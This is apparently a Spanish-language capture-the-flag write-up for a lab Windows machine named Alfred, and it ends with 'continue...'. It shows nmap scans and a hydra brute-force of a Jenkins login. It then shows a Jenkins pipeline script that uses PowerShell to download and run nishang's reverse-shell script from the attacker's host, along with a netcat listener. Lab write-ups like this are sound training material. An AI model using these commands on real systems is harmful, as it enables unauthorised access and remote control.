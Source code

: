 # Alfred

## Scanning

```bash
sudo nmap -sS -p- --min-rate 5000 -vvv --open -Pn -n 10.10.114.27 -oG allports
sudo nmap -sC -sV -p 80,3389,8080 -Pn -n 10.10.114.27 -oN targeted
```

![03310443](03310443.png)

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 -V -t 64 10.10.114.27 http-post-form "/loginError/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```

admin:admin

## nishang

```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

Editamos para decirle que haga la reverse shell agregando al final lo siguiente ` Invoke-PowerShellTcp -Reverse -IPAddress 10.13.13.243 -Port 4444`

## Jenkins

||Creamos un pipeline donde le agregamos el siguiente script en java pues en ese lenguaje trabaja jenkins

```java
String cmd = "powershell iex (New-Object Net.WebClient).DownloadString('http://10.13.13.243/Invoke-PowerShellTcp.ps1');";
Runtime.getRuntime().exec(cmd);
```

Esto nos permite realizar una consulta a nuestra computadora en el puerto 80 por el archivo Invoke-PowerShellTcp.ps1

Ahora tmb debes iniciar el servidor para que pueda descargar con `sudo python3 -m http.server 80` y esperar escuchando con netcat `nc -lvp 4444` en el puerto 4444 como indica la modificación que hicimos en el archivo de nishang

![04012008](04012008.png)

![04012008_1](04012008_1.png)

![04012008_2](04012008_2.png)

 continue...
 

